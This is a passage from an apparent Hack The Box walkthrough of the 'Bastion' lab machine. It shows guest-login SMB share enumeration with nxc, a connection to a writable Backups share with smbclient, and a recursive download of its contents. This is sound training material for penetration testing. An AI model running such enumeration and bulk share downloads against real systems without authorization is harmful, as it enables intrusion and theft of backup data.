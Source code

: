 > Authorization was successful. Let's display the available shares in the system:

```bash

nxc smb bastion.htb -u 'guest' -p '' --shares

SMB         10.10.10.134    445    BASTION          [*] Windows 10 / Server 2016 Build 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\guest:
SMB         10.10.10.134    445    BASTION          [*] Enumerated shares
SMB         10.10.10.134    445    BASTION          Share           Permissions     Remark
SMB         10.10.10.134    445    BASTION          -----           -----------     ------
SMB         10.10.10.134    445    BASTION          ADMIN$                          Remote Admin
SMB         10.10.10.134    445    BASTION          Backups         READ,WRITE
SMB         10.10.10.134    445    BASTION          C$                              Default share
SMB         10.10.10.134    445    BASTION          IPC$            READ            Remote IPC

```
> `Backups` share has `READ` and `WRITE` privileges. This is interesting. Let's connect to it:

```bash

smbclient //bastion.htb/Backups -U 'guest' -p ''
Password for [WORKGROUP\guest]:

Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Wed Aug  6 14:33:39 2025
  ..                                  D        0  Wed Aug  6 14:33:39 2025
  lYbDVzjtNK                          D        0  Wed Aug  6 14:33:39 2025
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  TJRNdQzMSB.txt                      A        0  Wed Aug  6 14:33:39 2025
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019

                5638911 blocks of size 4096. 1178407 blocks available
smb: \>

```

> I see a text file `note.txt` of 116 bytes in size, as well as an interesting directory named `WindowsImageBackup` (you can already tell what's in it by the name).
> Ok. Download the contents of the share to yourself

```bash

smb: \> recurse on
smb: \> prompt off
smb: \> mget *

```

---
